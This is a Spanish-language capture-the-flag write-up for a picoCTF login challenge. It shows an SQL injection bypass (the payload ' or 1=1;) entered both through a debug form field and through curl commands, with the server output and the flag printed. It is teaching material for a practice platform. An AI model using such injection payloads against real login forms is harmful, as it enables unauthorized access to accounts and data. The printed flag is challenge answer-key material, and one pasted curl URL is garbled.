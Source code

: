 ## Descripción 
There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!

## Datos de Acceso al Nivel
user: carlosof
password:

## Solución 1
- Ingresamos al link de la pagina y nos dirigimos a la parte del login del admin.
- Inspeccionamos la pagina web y  en el `<input type="hidden" name="debug" value="0">` cambiamos el valor a 1.
- Al tratar de ingresar con una contraseña cualquiera, nos regresa lo siguiente:
```
username: admin
password: 
SQL query: SELECT * FROM users WHERE name='admin' AND password=''

# Login failed. (Ahora sabemos que es vulnerable a un ataque de inyeccion SQL)
```
- Ingresamos admin en el username y de password utilizamos `'or 1 = 1;`
```
username: admin 
password: 'or 1 = 1;
SQL query: SELECT * FROM users WHERE name='admin ' AND password=''or 1 = 1;'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}
```
## Solución 2
```bash
	carlosof-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username=admin&password=password&debug=1"
<pre>username: admin
password: password
SQL query: SELECT * FROM users WHERE name='admin' AND password='password'
</pre><h1>Login failed.</h1>carlosof-picoctf@webshell:~$ curl -s https://jupiter.challenges.pin.php -d "username=admin&password=' or 1=1;&debug=1"
<pre>username: admin
password: ' or 1=1;
SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1=1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}</p>carlosof-picoctf@webshell:~$ 

```

## Notas Adicionales
- Una inyección SQL es una técnica de ataque que permite a un atacante insertar o manipular consultas SQL a través de entradas no validadas en una aplicación. Esto puede resultar en el acceso no autorizado a bases de datos, divulgación de información sensible, modificación o eliminación de datos.

- `curl`, una herramienta de línea de comandos para hacer solicitudes HTTP.
- `curl -s`: Llama a `curl` en modo silencioso, evitando que muestre el progreso de la descarga.

## Referencias 
https://play.picoctf.org/practice/challenge/80
https://latam.kaspersky.com/resource-center/definitions/sql-injection?srsltid=AfmBOootRM9cCI88fJV0m7V-OOrzjB2Z5qBP-J1De9j-ZjM5AXJLUxk0